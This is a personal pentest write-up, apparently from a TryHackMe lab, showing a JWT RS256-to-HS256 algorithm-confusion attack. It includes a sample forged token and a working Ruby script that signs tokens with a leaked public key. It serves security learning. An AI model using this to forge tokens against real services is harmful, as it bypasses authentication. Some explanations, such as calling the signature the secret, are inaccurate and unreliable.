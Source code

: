 # JWT Walkthrough with HS256 algorithm
#pentest/tryhackme

We start off with a basic application
![](JWT%20Walkthrough%20with%20HS256%20algorithm/ygQg3D8.png)

With a JWT, and a JWT verifier. Sending it garbage results in a failure, so let's try decoding the JWT.
![](JWT%20Walkthrough%20with%20HS256%20algorithm/RItwOM3.png)

Decoding the JWT gives us our header, payload, and a bunch of garbage which is the secret.
![](JWT%20Walkthrough%20with%20HS256%20algorithm/wgGLkHA.png)

Unfortunately it seems the algorithm is RS256, which doesn't have any vulnerabilities. **Fortunately for us though, this server leaves its public key lying around, which means we can change the algorithm and sign a new secret!** The first step is to change the algorithm in the header to HS256, and then re encode it in base64. Our new JWT is 

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vbG9jYWxob3N0IiwiaWF0IjoxNTg1MzIzNzg0LCJleHAiOjE1ODUzMjM5MDQsImRhdGEiOnsiaGVsbG8iOiJ3b3JsZCJ9fQ.FXj9F1jIXlhMyoQAo5-XPOiZeP4Ltw5XXZGqgX49tKkYUOeirOXUDgWL4bqP9nRXIODqOByqS_9O11nQN5bC_LTpfBWG2WZXg0tKIDAbKTxVkrytXBmOkP1qRK_Apv-CQs-mouuS1we8SHYShW_r4DEj0qAF3dsWVVzbRWNMH4Oc_odHNogv00dVlABcxMyXFpNJbeRS6-GCS-A4SFM32gMv_mkfkXrQPdejKDU_sKZrD5VVAmDlu0BainIvD28l8uV3OCc37shtPW0TKoIwUXmGsFYouKqk-h0dz4aTBLKJk7L64XdrA7ts1oOtzk8KqV6gnqXDXUNkzDX3qd9JKA`

The next step is to convert the public key to hex so openssl will use it.
![](JWT%20Walkthrough%20with%20HS256%20algorithm/ZoOsCaO.png) 

(Explanation: a is the file with the public key, `xxd -p` turns the contents of a file to hex, and `tr` is there to get rid of any newlines)
The next step is to use openssl to sign that as a valid HS256 key.
![](JWT%20Walkthrough%20with%20HS256%20algorithm/tYWFci2.png)

Everything is going just fine so far!. The final step is to decode that hex to binary data, and reencode it in base64, luckily python makes this really easy for us.
![](JWT%20Walkthrough%20with%20HS256%20algorithm/XfR9H8t.png)

That's our final secret, now we just put that where the secret should go, and the server should accept it.
So our final JWT would be `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.<payload>.<new secret>`

![](JWT%20Walkthrough%20with%20HS256%20algorithm/mdsgxHx.png)

## Ruby Script
It's not really an exploit and more of an algorithm, the algorithm `HS256`  means that the secret is calculated using the server `public key`, which in certain circumstances we may have access to.

```rb
require 'openssl'
require 'base64'
require 'json'

HMAC_SECRET = <<~DESC
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqi8TnuQBGXOGx/Lfn4JF
NYOH2V1qemfs83stWc1ZBQFCQAZmUr/sgbPypYzy229pFl6bGeqpiRHrSufHug7c
1LCyalyUEP+OzeqbEhSSuUss/XyfzybIusbqIDEQJ+Yex3CdgwC/hAF3xptV/2t+
H6y0Gdh1weVKRM8+QaeWUxMGOgzJYAlUcRAP5dRkEOUtSKHBFOFhEwNBXrfLd76f
ZXPNgyN0TzNLQjPQOy/tJ/VFq8CQGE4/K5ElRSDlj4kswxonWXYAUVxnqRN1LGHw
2G5QRE2D13sKHCC8ZrZXJzj67Hrq5h2SADKzVzhA8AW3WZlPLrlFT3t1+iZ6m+aF
KwIDAQAB
-----END PUBLIC KEY-----
DESC

def encode(hash_content)
  Base64.encode64(
    JSON.generate(hash_content)
  ).tr('+/', '-_').gsub(/[\n=]/, '')
end

def encode_signature(message)
  digest = OpenSSL::Digest.new('sha256')
  signature = OpenSSL::HMAC.digest(digest, HMAC_SECRET, message)
  Base64.encode64(signature).tr('+/', '-_').gsub(/[\n=]/, '')
end

def jwt(header, payload_hash)
  encoded_header = encode(header)
  encoded_payload = encode(payload_hash)
  encoded_signature = encode_signature(
    [encoded_header, encoded_payload].join('.')
  )

  [encoded_header, encoded_payload, encoded_signature].join('.')
end

puts jwt(
  { typ: 'JWT', alg: 'HS256'},
  { iss: "Paradox", iat: 1592187870, exp: 1592187990, data: { pingu: "noots" } }
)

```

